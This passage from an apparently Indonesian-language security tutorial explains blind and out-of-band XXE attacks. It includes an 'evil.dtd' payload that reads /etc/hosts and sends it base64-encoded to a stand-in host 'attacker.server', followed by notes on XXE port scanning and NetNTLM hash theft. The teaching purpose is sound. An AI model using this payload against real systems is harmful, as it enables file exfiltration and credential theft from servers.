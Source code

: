 Apabila mendapatkan response dari server target berarti bisa dipastikan vulnerable blind xxe. 

![](https://i.imgur.com/iC4St5c.png)

### OOB XXE

Apabila target sudah diverifikasi dan mendapatkan response yang menandakan vulnerable XXE, langkah selanjutkan adalah melakukan exfiltration terhadap data yang ingin dibaca.

remote dtd nya bernama `evil.dtd` disimpan di server attacker, isi nya :

```markup
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/hosts">
<!ENTITY % all "<!ENTITY % send SYSTEM 'http://attacker.server:2121/?%file;'>">
```

Pada payload diatas, filenya menggunakan wrapper php base64 tujuannya adalah untuk menghindari adanya `whitespace` karakter pada data yang ingin diexfiltration karena pada `libxml` php url tidak boleh mengandung whitespace karakter.

![](https://i.imgur.com/ydJ0RT4.png)

**Cara kerja payload diatas sebagai berikut :** 

1. Parser akan mengambil external entity yang berada remote source di [http://attacker.server/evil.dtd](http://attacker.server/evil.dtd) 

2. paramter entity `file` akan membaca file `/etc/hosts` 

3. entity `all` akan membuat parameter entity bernama `send` 

4. entity `send` akan melakukan request ke [http://attacker.server:2121](http://attacker.server:2121) dan mengappend data dari entity file, sehingga url requests nya akan menjadi [http://attacker.server:2121/?DATABASE64](http://attacker.server:2121/?DATABASE64)

Pada server listener terdapat data yang diencode base64, apabila didecode isi nya adalah file `/etc/hosts` server target. 

![](https://i.imgur.com/Y7RT3Qo.png)

### XXE And Port Scan

Untuk melakukan port scanning sebenarnya sangat gampang, karena payload nya sama saja dengan saat melakukan verifikasi blind xxe. Dengan begitu attacker hanya perlu mengganti host ke `local server` dan port berapa yang ingin coba dihubungi. Indikator apakah port tertentu terbuka bisa dilihat dari response server, misal nya response time atau bahkan pesan error yang ditampilan \(apabila server mengaktifkan error reporting\).

Percobaan scanning port 9000. 

![](https://i.imgur.com/RzQ1bW3.png)

### XXE And NetNTLM

Pada Windows Server XXE juga dapat dimanfaatkan untuk melakukan stealing `NetNTLM` hash dengan bantuan tool `metasploit` ataupun [`Responder`](https://github.com/SpiderLabs/Responder), NetNTLM hash yang di steal tersebut TIDAK bisa digunakan untuk `Pass The Hash Attack` tapi bisa dilakukan crack untuk mendapatkan plaintext password.
